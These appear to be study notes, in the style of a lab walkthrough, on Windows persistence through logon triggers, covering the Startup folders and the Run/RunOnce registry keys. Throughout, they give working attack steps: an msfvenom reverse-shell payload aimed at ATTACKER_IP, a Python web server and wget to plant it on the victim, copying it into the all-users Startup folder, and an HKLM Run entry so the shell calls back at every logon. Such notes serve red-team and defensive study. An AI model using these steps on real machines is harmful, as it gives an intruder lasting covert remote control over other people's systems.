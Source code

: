 # Logon Triggered Persistence

* Some actions performed by a user might also be bound to executing specific payloads for persistence.
* Windows operating systems present several ways to link payloads with particular interactions.

### Startup folder

* Each user has a folder under `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where you can put executables to be run whenever the user logs in.
* If we want to force all users to run a payload while logging in, we can use the folder under `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` in the same way.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
```

* We will then copy our payload into the victim machine. You can spawn an `http.server` with `Python3` and use `wget` on the victim machine to pull your file:

```
python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... 
```

```
Powershell
wget http://ATTACKER_IP:8000/revshell.exe -O revshell.exe
We then store the payload into the C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp folder to get a shell back for any user logging into the machine.

Command Prompt
C:\> copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

* Now be sure to sign out of your session from the start menu (closing the RDP window is not enough as it leaves your session open):

### Run / RunOnce

* You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

* The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone. Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the `RunOnce` keys will only be executed a single time.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe
```

* After transferring it to the victim machine, let's move it to C:\Windows:

```
move revshell.exe C:\Windows
```

Let's then create a `REG_EXPAND_SZ` registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. The entry's name can be anything you like, and the value will be the command we want to execute.

![](https://user-images.githubusercontent.com/75596877/181061126-ae241ccd-7767-4401-9964-960d5ec878c3.png)

* After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10-20 seconds).
